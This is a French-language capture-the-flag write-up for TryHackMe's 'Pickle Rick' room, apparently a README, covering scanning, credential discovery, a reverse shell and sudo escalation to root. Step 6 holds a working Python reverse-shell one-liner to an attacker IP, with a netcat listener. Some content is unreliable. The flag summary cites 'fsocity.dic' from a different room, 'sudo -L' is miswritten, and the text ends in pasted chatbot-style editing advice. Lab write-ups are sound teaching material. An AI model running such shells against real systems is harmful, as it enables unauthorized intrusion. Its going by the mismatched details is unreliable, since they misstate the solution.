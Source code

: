 # **CTF Write-Up: Pickle Rick**

## **Description**
Write-up détaillé pour résoudre le challenge *Pickle Rick* de TryHackMe. Toutes les étapes, outils, et captures d’écran sont inclus.

---

## **Étapes de Résolution**

### **1. Analyse initiale du serveur**
- **Ping :** Vérification que le serveur est actif.
- **Nmap scan :**
  ```bash
  nmap -sV -p- <IP-CIBLE>
  ```
  - **Résultats :**
    - Port 80 : HTTP (Apache/2.4.41)
    - Port 22 : SSH

![Scan Nmap](image/scannmap.png)

---

### **2. Exploration de la page web**
- **Inspection du code source :** Découverte du nom d’utilisateur.
  - **Nom d’utilisateur :** `R1ckRul3s`

![Code source username](image/Usernamedanslecodesource.png)

---

### **3. Recherche des répertoires cachés**
- **Dirb scan :**
  ```bash
  dirb http://<IP-CIBLE>/ <WORDLIST>
  ```
  - **Résultats :** Découverte de `/robots.txt` contenant `Wubbalubbadubdub`.

![Dirb results](image/dirbenumeration.png)

---

### **4. Utilisation de Nikto**
- **Commande :**
  ```bash
  nikto -h http://<IP-CIBLE>/
  ```
  - **Résultats :** Découverte de `/login.php`.

![Nikto results](image/nikto.png)

---

### **5. Connexion au panneau de contrôle**
- **Identifiants utilisés :**
  - **Nom d’utilisateur :** `R1ckRul3s`
  - **Mot de passe :** `Wubbalubbadubdub`
- **Résultat :** Accès au panneau de contrôle.

![Login panel](image/commandpanel.png)

---

### **6. Exploitation avec Reverse Shell**
- **Vérification de Python 3 sur la cible :**
  ```bash
  which python3
  ```
- **Reverse shell envoyé depuis le site :**
  ```bash
  python3 -c 'import socket,os; s=socket.socket(); s.connect(("IP-ATTAQUANT",PORT)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); os.system("/bin/bash")'
  ```
- **Netcat en écoute sur l’attaquant :**
  ```bash
  nc -lvnp <PORT>
  ```
- **Résultat :** Shell interactif avec les permissions `www-data`.

![Reverse Shell](image/lsreverseshell.png)

---

### **7. Escalade de privilèges**
- **Analyse des permissions sudo :**
  ```bash
  sudo -L
  ```
  - **Résultats :** Permissions root disponibles.
- **Commande pour devenir root :**
  ```bash
  sudo bash -i
  ```
- **Résultat :** Accès root obtenu.

![Root access](image/devenirroot+flag3.png)

---

### **8. Exploration finale**
- **Recherche dans le répertoire root :**
  - Découverte du troisième et dernier flag.

![Troisième flag](image/devenirroot+flag3.png)

---

## **Résumé des Flags**
1. **Flag 1 :** Contenu trouvé dans le fichier `fsocity.dic`.
2. **Flag 2 :** Contenu du fichier `clue.txt`.
3. **Flag 3 :** Contenu trouvé dans le répertoire `/root`.

---

## **Outils et Commandes Utilisés**
- **Nmap** : Pour énumérer les ports et services.
- **Netcat** : Vérification de la connectivité.
- **Gobuster/Dirb** : Énumération de répertoires.
- **Nikto** : Scan de vulnérabilités sur le serveur web.
- **Reverse Shell** : Exploitation pour obtenir un shell interactif.
- **Sudo** : Escalade de privilèges pour devenir root.

---

## **Licence**
Ce write-up est partagé à titre éducatif uniquement. Veuillez respecter les lois et ne pas utiliser ces techniques sans autorisation.
```

---

### Points à vérifier :
1. **Vérifiez les noms exacts des images** : 
   - Assurez-vous que les noms des fichiers correspondent exactement, y compris la casse (majuscules/minuscules) et l’extension (.png).
2. **Images dans `image/`** : 
   - Toutes vos images doivent être dans le dossier `image/`.
3. **Rendu final** :
   - Une fois ce texte ajouté, cliquez sur l'onglet **Preview** pour vérifier que tout fonctionne correctement.

Si vous rencontrez encore des problèmes, envoyez-moi les erreurs ou comportements rencontrés !
